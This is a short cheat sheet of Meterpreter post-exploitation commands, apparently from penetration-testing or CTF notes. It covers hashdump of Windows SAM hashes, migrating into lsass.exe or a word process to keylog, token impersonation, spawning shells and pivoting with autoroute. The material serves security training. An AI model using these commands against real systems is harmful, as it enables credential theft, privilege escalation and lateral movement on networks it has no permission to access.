 ```yaml
---
title: METERPRETER
summary: A Metasploit attack payload that provides an interactive shell.
description: A Metasploit attack payload that provides an interactive shell.
---
```


**[https://github.com/rapid7/meterpreter](https://github.com/rapid7/meterpreter)**

## METERPRETER Enumeration


 > 
 > **<font color=red>sysinfo</font>**</br>
 > Info about the system.

 > 
 > **<font color=red>getuid</font>**</br>
 > Get current user.

 > 
 > **<font color=red>getenv</font>**</br>
 > Get one or more environment variable values.

 > 
 > **<font color=red>search -f</font>** flag.txt</br>
 > Search a file on the machine.

## METERPRETER File Upload


 > 
 > **<font color=red>upload</font>**</br>
 > Upload a file or directory.

 > 
 > **<font color=red>download</font>**</br>
 > Download a file or directory.

## METERPRETER Spawn Shell


 > 
 > **<font color=red>shell</font>**</br>
 > Spawn a shell.

 > 
 > **<font color=red>load powershell</font>**</br>
 > **<font color=red>powershell_shell</font>**</br>
 > Spawn Powershell.

## METERPRETER Attacks


 > 
 > **<font color=red>hashdump</font>**</br>
 > Dump hashes from Windows SAM base (for linux use module  linux/gather/hashdump). 

 > 
 > **<font color=red>migrate</font>** 716
 > Migrate to another process. 
 > Ex : Migrate to a word.exe and act like a keylogger.
 > Ex: Migrate to lsass.exe to run hashdump.

## METERPRETER Impersonate

When **SeDebugPrivilege** or **SeImpersonatePrivilege** are enabled, we can impersonate another user.

 > 
 > **<font color=red>load incognito</font>**</br>
 > **<font color=red>list_tokens -g</font>**</br>
 > List tokens.
 > 
 > **<font color=red>impersonate_token</font> "BUILTIN\\Administrators"**</br>
 > Impersonate token.

To determine rights, Windows uses the Primary Token of the process and not the impersonated token. So we have to migrate to a process with correct permissions. 

The safest to pick is **services.exe**.

 > 
 > **<font color=red>migrate</font> 668**</br>
 > Migrate to process 668.

## METERPRETER Pivoting

When we have a meterpreter shell on a machine that has access to another network, we can use it to gain access to the 2nd network.

 > 
 > **<font color=red>run autoroute -s</font> \[REMOTE_NETWORK\]<font color=red>/24</font>**</br>
 > Create a route via the host that we had access to.

 > 
 > **<font color=red>run autoroute -p</font>**</br>
 > Show added routes.
